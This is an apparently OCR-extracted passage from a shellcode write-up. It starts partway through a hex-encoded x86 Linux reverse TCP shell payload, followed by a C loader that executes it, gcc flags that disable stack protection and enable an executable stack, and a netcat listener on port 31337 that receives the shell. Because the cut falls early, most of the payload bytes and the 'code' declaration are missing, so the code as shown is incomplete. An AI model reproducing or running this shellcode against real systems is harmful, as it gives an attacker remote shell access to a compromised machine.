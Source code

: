 ```c	
"\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52"
"\x89\xe2\xb0\x0b\xcd\x80";
 
main()
{
    printf("Shellcode Length: %dn", sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
}
```
Build the code:
```
$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
The options for gcc are to disable stack protection and enable stack execution respectively. Without these options the code will cause a segfault.

Test above executable using two systems (virtual or otherwise):
Open a terminal on the attack system,
```
$ nc -l -v 31337
```
the attack system will await a connection from the compromised system.

Open a terminal on the system to be compromised,
```
$ ./reversetcpbindshell
```
on the attack system a connection message should now appear, shell access is now available on the compromised system. Try typing in some commands to prove this is the case.

The shellcode above currently weighs in at 92 bytes. With further research the codebase could possibly be reduced, especially on architectures other than x86.


Exploit-db database entry -- http://www.exploit-db.com/exploits/25497

Shell-storm database entry -- http://shell-storm.org/shellcode/files/shellcode-849.php
